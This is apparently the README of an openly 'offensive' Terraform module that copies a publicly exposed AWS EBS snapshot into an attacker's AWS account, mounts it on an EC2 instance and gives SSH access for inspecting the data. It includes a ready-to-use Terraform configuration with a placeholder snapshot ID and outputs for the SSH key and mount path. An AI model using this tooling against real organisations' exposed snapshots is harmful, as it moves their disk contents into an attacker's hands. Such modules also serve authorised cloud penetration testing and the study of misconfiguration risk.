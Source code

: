 # AWS EBS Snapshot Publicly Exposed

![OffensiveTerraform](https://img.shields.io/badge/hack-success)
![OffensiveTerraform](https://img.shields.io/badge/offensive-terraform-blueviolet)
![OffensiveTerraform](https://img.shields.io/badge/aws-important)

Offensive Terraform module which copies publicly exposed EBS snapshot to us-east-1 region in attacker's AWS account and creates EBS volume from the copied EBS snapshot. After that, the module attaches and mounts the EBS volume to an EC2 instance. Finally, attacker can ssh into an EC2 instance and inspect a mounted volume "/usr/src/hack".

![Attack Diagram](https://raw.githubusercontent.com/offensive-terraform/terraform-aws-ebs-snapshot-publicly-exposed/master/diagram.jpg)

## Usage
```
provider "aws" {
  region = "us-east-1"
}

module "ebs-snapshot-publicly-exposed" {
    source  = "offensive-terraform/ebs-snapshot-publicly-exposed/aws"

    public_snapshot_id = "snap-000000000000"
    public_snapshot_region = "us-west-2"
}

output "ssh_private_key" {
  value = module.ebs-snapshot-publicly-exposed.ssh_private_key
}

output "ssh_ec2_connect" {
  value = module.ebs-snapshot-publicly-exposed.ssh_ec2_connect
}

output "ebs_volume_mount_path" {
  value = module.ebs-snapshot-publicly-exposed.ebs_volume_mount_path
}
```

## Author
Module managed by https://github.com/iganbold
